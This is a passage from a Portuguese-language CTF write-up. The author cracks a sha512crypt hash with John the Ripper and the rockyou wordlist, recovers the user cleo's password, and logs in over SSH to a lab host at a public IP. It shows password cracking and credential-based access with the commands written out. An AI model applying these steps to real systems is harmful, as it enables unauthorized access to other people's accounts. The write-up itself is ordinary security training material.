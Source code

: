 onde:
- `--wordlist` é para especificar o arquivo de wordlist que o john vai utilizar.
- `hash` é o arquivo onde salvaremos a hash que queremos quebrar.

A wordlist que vamos utilizar é a `rockyou.txt` que vem por padrão no kali linux. essa mesma wordlist pode ser encontrada no diretório do github do [seclist](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Leaked-Databases).

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/CTF-1                                                                                             21:47:27
╰──➤ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
No password hashes left to crack (see FAQ)
```

Eu já havia quebrado essa hash antes, então eu vou  utilizar o comando `john --show hash` para ver a senha quebrada.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/CTF-1                                                                                             21:47:29
╰──➤ john --show hash
?:sunflower

1 password hash cracked, 0 left
```

temos então que a senha do usuário `cleo` é `sunflower`.

Vamos tentar logar como o usuário `cleo` utilizando o comando `ssh cleo@140.238.183.68`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/CTF-1                                                                                             21:49:55
╰──➤ ssh cleo@140.238.183.68
cleo@140.238.183.68's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-1037-oracle x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun 21 00:51:42 UTC 2023

  System load:  0.0               Processes:             115
  Usage of /:   7.0% of 48.27GB   Users logged in:       0
  Memory usage: 32%               IPv4 address for ens3: 10.0.0.9
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

21 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Mon Jun 19 07:47:05 2023 from 45.230.97.205
cleo@ctf-1:~$

```
